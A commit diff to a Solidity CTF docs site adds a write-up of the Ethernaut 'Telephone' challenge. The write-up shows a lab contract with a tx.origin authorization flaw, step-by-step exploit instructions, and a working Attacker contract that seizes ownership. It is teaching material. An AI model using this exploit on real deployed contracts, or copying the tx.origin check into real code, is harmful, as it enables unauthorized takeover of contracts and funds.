

Before and after one commit to dmtrbch/solidity-ctfs, an MkDocs documentation site: the page built from docs/1. Ethernaut/04. Telephone.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Telephone

````diff
--- a/docs/1. Ethernaut/04. Telephone.md
+++ b/docs/1. Ethernaut/04. Telephone.md
@@ -1,12 +1,66 @@
 # Telephone
 
-Most people in crypto came here initially because of the allure of money. Either we missed an opportunity to buy, are looking for an opportunity to grow our salary, or see an opportunity for a killer app. There's no shame in that! I do hope you come for the money and stay for the paradigm shift, though.
+```
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.8.0;
 
+contract Telephone {
 
-Blockchain promises to upend the current top-down information systems in our world. Currently, most users of the internet surrender their personal data to centralized databases and services.
+  address public owner;
 
-To achieve this paradigm shift, blockchain relies fundamentally on two fields of computer science: [**Distributed Computing**](https://en.wikipedia.org/wiki/Distributed_computing) and [**Cryptography**](https://en.wikipedia.org/wiki/Cryptography). We will cover these topics in the Fundamentals section of the course.
+  constructor() {
+    owner = msg.sender;
+  }
 
-This paradigm shift requires changes from the developer _and_ the user. In the next section of the course, we'll go over what the protocol-layer changes of blockchain mean for you as a developer. I'll then introduce you to Solidity, the language for developing smart contracts, as well as the tools you'll need to build. I'll also discuss the changes for the user, including how requiring private key signatures dramatically changes user workflow.
+  function changeOwner(address _owner) public {
+    if (tx.origin != msg.sender) {
+      owner = _owner;
+    }
+  }
+}
+```
 
-While there's enormous promise with blockchain development, it requires an awareness of the paradigm shift and an expertise in the fundamental concepts underpinning it. Otherwise, we are inevitably going to recreate the same, centralized monolith we have today.
+## Goal
+
+Change the owner of the Telephone smart contract
+
+## Exploit
+
+Similar to the previous Coin Flip CTF, we will again need additional smart contract to complete this challenge, again this contract will be named Attacker
+
+In order to win this challenge we need to change the owner of the contract, and looking into the code we can see that there is chageOwner() function, with some additional requirement. So let's jump to it!
+
+As seen in the code in order to change the owner we first make the following check:
+
+```
+  if (tx.origin != msg.sender)
+```
+
+What this is checking is if the originator of the transaction is different from the msg.sender (the account from which changeOwner() function is called).
+With that in mind, in order to solve the challenge we will need to find a way to "forward" the call to changeOwner() from another smart contract.
+Kepp in mind that tx.origin will always be an externally owned account (EOA) and confusing tx.origin with msg.sender can lead to phishing-style attacks.
+
+The steps to reproduce the exploit would be:
+
+1. create Attacker contract, and create instance from the Telephone contract inside the Attacker contract
+2. create changeOwnerFromAttacker() external function inside the Attacker contract, inside this function we will call the changeOwner(_owner) function from Telephone smart contract, passing msg.sender as argument for the _owner, this is the part where we are forwarding the call
+3. call the changeOwnerFromAttacker() function inside the Attacker contract from our account
+4. this will change the owner of the Telephone contract setting our EOA account as the owner
+
+## Attacker contract code
+
+```
+contract Attacker {
+
+  address private telephoneContractAddress;
+
+  constructor(address _tel) {
+    telephoneContractAddress = _tel;
+  }
+
+  function changeOwnerFromAttacker() external {
+    (bool success, ) = telephoneContractAddress.call(abi.encodeWithSignature("changeOwner(address)", msg.sender));
+    require(success, "Transaction failed");
+  }
+}
+```
````
Also changed, not shown: docs/1. Ethernaut/03. Coin Flip.md (+6 -5 lines).
